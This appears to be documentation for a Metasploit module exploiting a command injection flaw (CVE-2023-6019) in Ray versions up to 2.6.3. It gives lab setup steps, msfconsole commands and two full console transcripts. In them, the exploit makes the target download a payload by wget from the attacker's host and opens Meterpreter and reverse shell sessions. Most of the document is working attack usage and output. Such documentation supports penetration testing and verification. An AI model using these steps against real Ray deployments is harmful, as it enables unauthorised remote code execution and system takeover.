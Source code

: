 ## Vulnerable Application

Ray (<=v2.6.3) is vulnerable to RCE via cpu_profile command injection vulnerability (CVE-2023-6019)

The vulnerability affects:

    * Ray (<=v2.6.3)

This module was successfully tested on:

    * Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15

### Install and run the vulnerable Ray (v2.6.3)

1. Install your favorite virtualization engine (VirtualBox or VMware) on your preferred platform.
2. Install Kali Linux (or other Linux distro) in your virtualization engine.
3. Pull pre-built Ray docker container (v2.6.3) in your VM.
   `docker pull rayproject/ray:2.6.3`
4. Start the ray container.
   `docker run --shm-size=512M -it -p 8265:8265 rayproject/ray:2.6.3`
5. Start ray.
   `ray start --head --dashboard-host=0.0.0.0`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019`
4. Do: `set rhost <rhost>`
5. Do: `set lhost <attacker-ip>`
6. Do: `run`
7. You should get a shell or meterpreter

## Options
No options

## Scenarios

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (target 0)
```
msf6 > use exploit/linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > check
[*] 192.168.56.6:8265 - The service is running, but could not be validated.
msf6 exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Grabbed node info, pid: 129, ip: 172.17.0.2
[*] Using URL: http://192.168.56.1:8080/2W4ZJ30NqjnfoGE
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /2W4ZJ30NqjnfoGE
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (3045380 bytes) to 192.168.56.6
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.6:59072) at 2024-08-10 10:29:05 +0900
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.6.15-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (target 1)
```
msf6 > use exploit/linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > set target 1
target => 1
msf6 exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > check
[*] 192.168.56.6:8265 - The service is running, but could not be validated.
msf6 exploit(linux/http/ray_cpu_profile_cmd_injection_cve_2023_6019) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Grabbed node info, pid: 129, ip: 172.17.0.2
[*] Using URL: http://192.168.56.1:8080/Mz2SC2mlSp
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /Mz2SC2mlSp
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (36 bytes) to 192.168.56.6
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.6:59210) at 2024-08-10 10:30:49 +0900
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Server stopped.

whoami
ray
pwd
/home/ray
```

